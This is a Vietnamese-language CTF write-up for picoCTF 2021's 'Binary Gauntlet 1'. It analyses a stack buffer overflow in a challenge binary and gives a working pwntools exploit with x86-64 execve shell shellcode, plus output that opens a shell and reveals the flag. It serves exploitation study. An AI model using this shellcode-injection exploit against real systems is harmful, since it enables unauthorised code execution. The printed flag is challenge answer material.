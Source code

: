 # Binary Gauntlet 1
[Tham khảo binary gauntlet 0](../Binary-Gauntlet-0)
## Kiểm tra file
### File
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2a7f79b758fdc250528e5bbc3da169fbf74e4ad3, not stripped
```
### Checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
Cũng như gauntlet 0, không khác gì lắm
## Decompile & Disassemble
### Decompile main
```c
undefined8 main(void)
{
  char local_78 [104];
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  printf("%p\n",local_78);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_78,local_10);
  return 0;
}
```
Lần này chương trình không có phương thức để đọc flag. Vì vậy chúng ta sẽ dùng shellcode để mở shell và đọc flag. Chương trình cung cấp cho ta địa chỉ của biến local_78, đây sẽ là nơi ta chèn shellcode vào và return về
```c
printf("%p\n",local_78);
```
### Disassemble main
```asm
0x0000000000400687 <+0>:	push   rbp
0x0000000000400688 <+1>:	mov    rbp,rsp
0x000000000040068b <+4>:	add    rsp,0xffffffffffffff80
0x000000000040068f <+8>:	mov    DWORD PTR [rbp-0x74],edi
0x0000000000400692 <+11>:	mov    QWORD PTR [rbp-0x80],rsi
0x0000000000400696 <+15>:	mov    edi,0x3e8
0x000000000040069b <+20>:	call   0x400580 <malloc@plt>
0x00000000004006a0 <+25>:	mov    QWORD PTR [rbp-0x8],rax
0x00000000004006a4 <+29>:	lea    rax,[rbp-0x70]
0x00000000004006a8 <+33>:	mov    rsi,rax
0x00000000004006ab <+36>:	lea    rdi,[rip+0x122]        # 0x4007d4
0x00000000004006b2 <+43>:	mov    eax,0x0
0x00000000004006b7 <+48>:	call   0x400560 <printf@plt>
0x00000000004006bc <+53>:	mov    rax,QWORD PTR [rip+0x20098d]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x00000000004006c3 <+60>:	mov    rdi,rax
0x00000000004006c6 <+63>:	call   0x400590 <fflush@plt>
0x00000000004006cb <+68>:	mov    rdx,QWORD PTR [rip+0x20098e]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x00000000004006d2 <+75>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006d6 <+79>:	mov    esi,0x3e8
0x00000000004006db <+84>:	mov    rdi,rax
0x00000000004006de <+87>:	call   0x400570 <fgets@plt>
0x00000000004006e3 <+92>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006e7 <+96>:	add    rax,0x3e7
0x00000000004006ed <+102>:	mov    BYTE PTR [rax],0x0
0x00000000004006f0 <+105>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006f4 <+109>:	mov    rdi,rax
0x00000000004006f7 <+112>:	mov    eax,0x0
0x00000000004006fc <+117>:	call   0x400560 <printf@plt>
0x0000000000400701 <+122>:	mov    rax,QWORD PTR [rip+0x200948]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x0000000000400708 <+129>:	mov    rdi,rax
0x000000000040070b <+132>:	call   0x400590 <fflush@plt>
0x0000000000400710 <+137>:	mov    rdx,QWORD PTR [rip+0x200949]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x0000000000400717 <+144>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040071b <+148>:	mov    esi,0x3e8
0x0000000000400720 <+153>:	mov    rdi,rax
0x0000000000400723 <+156>:	call   0x400570 <fgets@plt>
0x0000000000400728 <+161>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040072c <+165>:	add    rax,0x3e7
0x0000000000400732 <+171>:	mov    BYTE PTR [rax],0x0
0x0000000000400735 <+174>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400739 <+178>:	lea    rax,[rbp-0x70]
0x000000000040073d <+182>:	mov    rsi,rdx
0x0000000000400740 <+185>:	mov    rdi,rax
0x0000000000400743 <+188>:	call   0x400550 <strcpy@plt>
0x0000000000400748 <+193>:	mov    eax,0x0
0x000000000040074d <+198>:	leave  
0x000000000040074e <+199>:	ret  
```
Biến local_78 nằm tại [rbp - 0x70]. Chúng ta cần 0x80 bytes để ghi đè return address. Payload của ta sẽ có dạng "shellcode + padding * (0x78 - độ dài shellcode) + địa chỉ biến local_78"
## Exploit
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = remote("mercury.picoctf.net", 13644)
addr = run.recvline()
run.sendline("Pwned")

addr = int(addr, 16)

payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += b'A' * (0x78 - len(payload))
payload += p64(addr)

run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 13644: Done
[*] Switching to interactive mode
Pwned
$ cat flag.txt
66fa43e73fc405235d4d2aa9da1b257f
```
